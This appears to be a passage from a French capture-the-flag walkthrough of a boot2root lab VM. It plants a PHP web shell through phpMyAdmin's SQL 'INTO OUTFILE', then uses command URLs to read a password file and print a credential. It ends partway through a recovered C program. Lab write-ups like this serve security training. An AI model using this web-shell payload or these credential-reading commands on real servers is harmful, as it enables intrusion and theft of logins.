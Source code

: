 Connectez vous à `https://192.168.85.136/phpmyadmin` avec les informations ci-dessus.

Nous avons la possibilité de faire une injection SQL. Cliquez sur l'onglet SQL et copiez/collez la ligne suivante :

```sql
select "<? System($_REQUEST['cmd']); ?>" into outfile "/var/www/forum/templates_c/inject.php";
```

En utilisant les informations données par `dirb` et en testant différents dossiers nous trouvons un sous-dossier libre d'accès : `/var/www/forum/templates_c/`.

Cette injection SQL va nous permettre ensuite d'exécuter des commandes shells directement dans la barre de navigation comme celle-ci : `https://192.168.85.136/forum/templates_c/inject.php?cmd=ls%20/home`. Nous pouvons ainsi explorer les dossiers et fichiers qui se trouvent sur le serveur.

En rentrant cela dans votre barre de navigation :

```
https://192.168.85.136/forum/templates_c/inject.php?cmd=cat%20/home/LOOKATME/password
```

Vous découvrez de nouvelles informations intéressantes : `lmezard:G!@M6f4Eatau{sF"`. Cela ressemble beaucoup à un identifiant et un mot de passe, n'est-ce-pas ?

## La VM

Vous pouvez maintenant vous connecter à la VM. Un fichier `fun` est présent et un `README`. Nous allons modifier les droits d'accès afin de récupérer ce fichier :

```bash
$> cd ..
$> chmod 777 lmezard
$> cd lmezard
$> chmod 777 fun
```

Vous pouvez maintenant récupérer son contenu sur votre Mac en utilisant l'injection SQL `https://192.168.85.136/forum/templates_c/inject.php?cmd=cat%20/home/lmezard/fun` qui affichera le contenu. Il suffit de le copier/coller dans un nouveau fichier `fun.c`.

## fun

### main

C'est un vrai bazard ! Après un peu d'investigation et de nettoyage du fichier nous obtenons la fonction `main` qui suit :

```C
int main()
{
    printf("M");
    printf("Y");
    printf(" ");
    printf("P");
    printf("A");
    printf("S");
    printf("S");
    printf("W");
    printf("O");
    printf("R");
    printf("D");
    printf(" ");
    printf("I");
    printf("S");
    printf(":");
    printf(" ");
    printf("%c",getme1());
    printf("%c",getme2());
```
